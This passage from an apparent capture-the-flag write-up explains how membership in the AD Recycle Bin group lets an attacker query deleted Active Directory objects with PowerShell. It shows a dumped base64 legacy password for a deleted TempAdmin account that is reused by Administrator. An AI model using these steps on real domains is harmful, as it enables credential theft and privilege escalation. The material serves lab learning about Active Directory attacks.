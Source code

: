 why `Ad Recycle Bin` Group it's to dangerous ? in short this feature was to facilitate the recovery of deleted Active Directory objects without requiring restoration of backups, to accomplish these goals, the AD Recycle Bin introduced changes to the behaviour of the Active Directory object deletion lifecycle.

run this command below to check if `tempadmin` is deleted or not.

```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

![](/assets/img/cascade/7.png)

but when i tried to restore this user i've get following error similiar below

![](/assets/img/cascade/8.png)

so the point is we didnt have to Restore any object, but we only need information password about this user, becuase `TempAdmin` is the same password on Administrator.

we can dump information about this user with run single command 

```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

```powershell
[..]
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  : 
ObjectClass                     : container
ObjectGUID                      : 746385f2-e3a0-4252-b83a-5a206da0ed88
[SNIP]
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
[SNIP]
[...]
```
